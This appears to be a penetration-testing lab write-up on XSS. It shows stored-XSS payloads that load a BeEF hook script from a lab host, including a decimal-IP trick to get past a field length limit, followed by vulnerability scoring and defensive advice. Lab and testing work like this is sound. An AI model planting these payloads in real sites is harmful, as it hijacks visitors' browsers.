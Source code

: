 ### Stored XSS Weaponization - Challenge Encountered

**Attempted Payload:**
```javascript
<script src="http://192.168.56.102:3000/hook.js"></script>
```

**Issue Identified:** Character limit restriction (50 characters) on message field
**Payload Length:** 57 characters
**Result:** Truncated payload, failed execution

#### Evasion Strategy Developed

**Solution:** IP address conversion to decimal format
- **Standard IP:** 192.168.56.102
- **Decimal Format:** 3232239958
- **Optimized Payload:** `<script src=//3232239958:3000/hook.js></script>`
- **Character Count:** 45 characters (under limit)

This demonstrates real-world constraint bypass techniques essential for professional penetration testing.

## Technical Findings Summary

### Vulnerability Scoring

| Vulnerability Type | CVSS Base Score | Exploitability | Impact |
|-------------------|-----------------|----------------|--------|
| Reflected XSS | 6.1 (Medium-High) | High | Medium |
| Stored XSS | 7.2 (High) | High | High |

### Exploitation Success Rate

| Test Vector | Success Rate | Weaponization |
|-------------|-------------|---------------|
| Reflected XSS | 100% | ✅ Full BeEF Integration |
| Stored XSS (Basic) | 100% | ❌ Character Limit Constraint |
| Stored XSS (Optimized) | Pending | 🔄 Solution Identified |

## Defensive Recommendations

### Input Validation
1. **Server-side sanitization** of all user inputs
2. **Whitelist approach** for allowed characters and tags
3. **Length restrictions** with proper error handling

### Output Encoding
1. **HTML entity encoding** for displayed content
2. **Context-aware encoding** (HTML, JavaScript, CSS, URL)
3. **Template engine** with automatic escaping
